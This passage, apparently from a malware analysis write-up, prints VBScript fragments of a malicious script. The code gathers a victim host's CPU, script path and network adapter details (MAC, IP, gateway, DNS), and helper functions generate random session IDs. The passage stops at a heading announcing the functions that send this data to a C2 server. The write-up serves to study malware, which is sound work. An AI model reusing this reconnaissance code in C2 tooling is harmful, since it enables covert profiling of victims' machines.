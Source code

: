 ```vb
			case else
				cpuArch="Unknown"
		end select
		getInfo=getInfo+"CPU:"+tab+tab+item.Name+" (" + cpuArch + ")"+ent
	next
	
	getInfo=getInfo + "Path:     "+tab+WScript.ScriptFullName+ent+ent

	set adapItems=ObjWMI.ExecQuery("SELECT * FROM Win32_NetworkAdapterConfiguration",,48)
	for each adapter in adapItems
		on error resume next
		if isNull(adapter.IPAddress) then
		else
			getInfo=getInfo+"Network Adapter:"+tab&adapter.Description+ent
			getInfo=getInfo+"  MAC Address:"+tab&adapter.MACAddress + ent
			getInfo=getInfo+"  IP Address:"+tab+Join(adapter.IPAddress, ",") + ent
			getInfo=getInfo+"  Subnet Mask:"+tab+Join(adapter.IPSubnet, ",") + ent
			getInfo=getInfo+"  Default Gateway:"+tab+Join(adapter.DefaultIPGateway, ",") + ent
			if adapter.DHCPEnabled=true then
				getInfo=getInfo+"  DHCP Servers:"+tab&adapter.DHCPServer + ent
			end if
			getInfo=getInfo+"  DNS Server:"+tab+Join(adapter.DNSServerSearchOrder, ",") + ent
		end if
	next
end function
```

<h6>The next functions are used for randomizing the ID and session and format the date to string.</h6>

```vb
function rand()
	randomize
	rand=Int(90000000*rnd)+10000000
end function
function randID()
	randomize
	randID=Int(1000*rnd)
end function
function GetFormattedDate (sDate)
	strDate = CDate(sDate)
	strDay = DatePart("d", strDate)
	strMonth = DatePart("m", strDate)
	strYear = DatePart("yyyy", strDate)
	if strDay < 10 then
		strDay = "0" & strDay
	end if
	if strMonth < 10 then
		strMonth = "0" & strMonth
	end if
	GetFormattedDate = strMonth & "/" & strDay &"/" &strYear
end function
```
<h6>The last functions are used for sending the informations founded to the C2 and receive the reply of the C2.</h6>
